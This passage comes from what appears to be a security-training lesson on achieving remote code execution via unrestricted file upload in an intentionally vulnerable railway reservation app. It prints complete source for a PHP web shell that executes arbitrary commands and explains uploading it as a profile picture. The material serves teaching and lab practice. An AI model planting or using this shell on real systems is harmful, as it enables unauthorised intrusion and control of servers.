 Okay, now that we're familiar with a remote code execution vulnerability and how it works, let's take a look at how we would exploit it!


## Practice Makes Perfect

To understand how a file upload vulnerability can result in an RCE, the best approach is to get some hands-on experience with it. A handy (and ethical) way to do this is to find and download a reputable open-source web application which has this vulnerability built into it. Many open-source projects exist in places like GitHub, which can be run in your own environment to experiment and practice. In today's task, we will demonstrate achieving RCE via unrestricted file upload within an [open-source railway management system](https://github.com/CYB84/CVE_Writeup/tree/main/Online%20Railway%20Reservation%20System) that has this vulnerability [built into it](https://github.com/CYB84/CVE_Writeup/blob/main/Online%20Railway%20Reservation%20System/RCE%20via%20File%20Upload.md).   

## Exploiting RCE via File Upload

Now we're going to go through how this vulnerability can be exploited. For now, you can just read along, but an opportunity to put this knowledge into practice is coming up. Once an RCE vulnerability has been identified that can be exploited via file upload, we now need to create a malicious file that will allow remote code execution when uploaded.

Below is an example PHP file which could be uploaded to exploit this vulnerability. Using your favorite text editor, copy and paste the below code and save it as `shell.php`.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

The above script, when accessed, displays an input field. Whatever is entered in this input field is then run against the underlying operating system using the `system()` PHP function, and the output is displayed to the user. This is the perfect file to upload to the vulnerable rail system reservation application. The vulnerability is surrounding the upload of a new profile image. So, to exploit it, we navigate to the profile picture page:

![Railway profile page](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053142390.png)

Instead of a new profile picture, we can upload our malicious PHP script and update our profile:
